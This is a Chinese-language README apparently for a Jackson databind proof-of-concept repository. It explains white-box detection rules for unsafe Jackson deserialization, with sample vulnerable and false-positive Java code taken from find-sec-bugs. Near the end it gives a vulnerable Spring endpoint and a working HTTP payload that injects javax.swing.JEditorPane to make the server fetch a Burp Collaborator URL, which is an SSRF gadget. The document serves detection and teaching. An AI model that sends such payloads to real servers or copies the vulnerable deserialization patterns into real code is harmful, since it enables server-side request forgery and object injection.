

# jackson-databind-POC

### 存在漏洞示例/误报示例

先看几个白盒检测存在漏洞的示例：
来源：https://github.com/find-sec-bugs/find-sec-bugs/blob/master/findsecbugs-samples-java/src/test/java/testcode/serial/UnsafeJacksonObjectDeserialization.java

```java
public class UnsafeJacksonObjectDeserialization {

    static class ABean {
        public int id;
        public Object obj;
    }

    static class AnotherBean {
        @JsonTypeInfo (use = JsonTypeInfo.Id.CLASS)
        public Object obj;
    }

    static class YetAnotherBean {
        @JsonTypeInfo (use = JsonTypeInfo.Id.MINIMAL_CLASS)
        public Object obj;
    }

    public void exampleOne(String JSON)  throws Exception {
        ObjectMapper mapper = new ObjectMapper();
        mapper.enableDefaultTyping();
        Object obj = mapper.readValue(JSON, ABean.class);
    }

    public void exampleTwo(String JSON)  throws Exception {
        ObjectMapper mapper = new ObjectMapper();
        mapper.enableDefaultTyping(ObjectMapper.DefaultTyping.NON_CONCRETE_AND_ARRAYS);
        Object obj = mapper.readValue(JSON, ABean.class);
    }

    public void exampleThree(String JSON)  throws Exception {
        ObjectMapper mapper = new ObjectMapper();
        Object obj = mapper.readValue(JSON, AnotherBean.class);
    }

    public void exampleFour(String JSON)  throws Exception {
        ObjectMapper mapper = new ObjectMapper();
        Object obj = mapper.readValue(JSON, YetAnotherBean.class);
    }

}
```

从上面的四个例子可以总结出存在漏洞的jackson代码有这么几种情况：
- 1、exampleOne开启了DefaultTyping，且被序列化的类里有一个Object类型，可以进行对象注入；
- 2、exampleTwo开启了DefaultTyping，且接口类和抽象类都能被反序列化，更可以进行对象注入；
- 3、exampleThree虽然没有开启DefaultTyping，但是其被序列化的类被`JsonTypeInfo.Id.CLASS`修饰，可以通过`@class`进行对象注入；
- 4、exampleThree虽然没有开启DefaultTyping，但是其被序列化的类被`JsonTypeInfo.Id.MINIMAL_CLASS`修饰，可以通过`@c`进行对象注入；


再看一个jackson反序列化白盒检测的误报示例：
来源：https://github.com/find-sec-bugs/find-sec-bugs/blob/master/findsecbugs-samples-java/src/test/java/testcode/serial/JacksonSerialisationFalsePositive.java


```java
public class JacksonSerialisationFalsePositive implements Serializable {

    static class Bean {
        @JsonTypeInfo (use = JsonTypeInfo.Id.NAME)
        public Object obj;
    }

    public void exampleOne(String JSON)  throws Exception {
        ObjectMapper mapper = new ObjectMapper();
        Object obj = mapper.readValue(JSON, JacksonSerialisationFalsePositive.class);
    }

    public void exampleTwo(String JSON)  throws Exception {
        ObjectMapper mapper = new ObjectMapper();
        Object obj = mapper.readValue(JSON, Bean.class);
    }
}
```

说明：
- 1、exampleOne中没有开启DefaultTyping，且其待反序列化的类没有使用`JsonTypeInfo.Id.CLASS/MININAL_CLASS`修饰，所以无法进行对象注入；
- 2、exampleTwo中没有开启DefaultTyping，且其待反序列化的类没有使用`JsonTypeInfo.Id.CLASS/MININAL_CLASS`修饰，所以无法进行对象注入；


### jackson反序列化白盒检测
#### 第一个特征是关于 EnableDefaultTyping 的，注意他的多个重载方法，共有4个：
```java
ObjectMapper enableDefaultTyping()
ObjectMapper enableDefaultTyping(DefaultTyping dti)
ObjectMapper enableDefaultTyping(DefaultTyping applicability, JsonTypeInfo.As includeAs)
ObjectMapper enableDefaultTypingAsProperty(DefaultTyping applicability, String propertyName)
```
只要匹配到，就算命中了条件A。

#### 第二个特征是在 readValue 时候，指定的类本身是Object或者里面一定要包含Object类型字段或者Object类型的setter。
```java
public <T> T readValue(String content, JavaType valueType)
public <T> T readValue(Reader src, Class<T> valueType)
public <T> T readValue(Reader src, TypeReference valueTypeRef)
public <T> T readValue(Reader src, JavaType valueType)
```
所以只要匹配到这个，就需要对第二个参数进行解析，确认这个Model是否是可以被攻击的Model。如果包含了Object或者本身就是个Object，就认为命中了条件B。


#### 第三个特征是被反序列的类里面，有被 JsonTypeInfo 注解过的类，而且里面的内容是 `JsonTypeInfo.Id.CLASS` 或 `JsonTypeInfo.Id.MINIMAL_CLASS` 。记做条件C。

最终条件就是  (A&&B) || C。


下面给出一个C的示例：

```java
public class Jackson {

    static class AnotherBean {
        @JsonTypeInfo (use = JsonTypeInfo.Id.CLASS)
        public Object obj;
    }

    @RequestMapping(value = "/deserialize3", method = {RequestMethod.POST})
    @ResponseBody
    public static String deserialize3(@RequestBody String params) throws IOException {
        System.out.println(params);
        try {
            ObjectMapper objectMapper = new ObjectMapper();
            Object obj = objectMapper.readValue(params, AnotherBean.class);
            return obj.toString();
        }  catch (Exception e){
            e.printStackTrace();
            return e.toString();
        }
    }

```
相应的payload为：
```http
POST /jackson/deserialize3 HTTP/1.1
Host: cqq.com:8080
Connection: close
Cookie: JSESSIONID=C48313A5CE14AE7A1C15696C03AE0893
Content-Type: application/json
Content-Length: 127

{"obj":{"@class":"javax.swing.JEditorPane","page":"http://ivh6gf9nkrbys3l03uppuzvv9mfg35.burpcollaborator.net:80/?a=1&b=2222"}}
```


### Demo
下面演示从HTTP请求到Spring的方法，然后readValue，最后触发gadget的方法。这里是一个SSRF的例子。



### 参考
- https://github.com/JoyChou93/java-sec-code
- https://www.leadroyal.cn/?p=594
- https://www.leadroyal.cn/?p=630
- [Jackson反序列化漏洞简介（四）： 防御和检测方式【系列完结】](https://www.leadroyal.cn/?p=633)
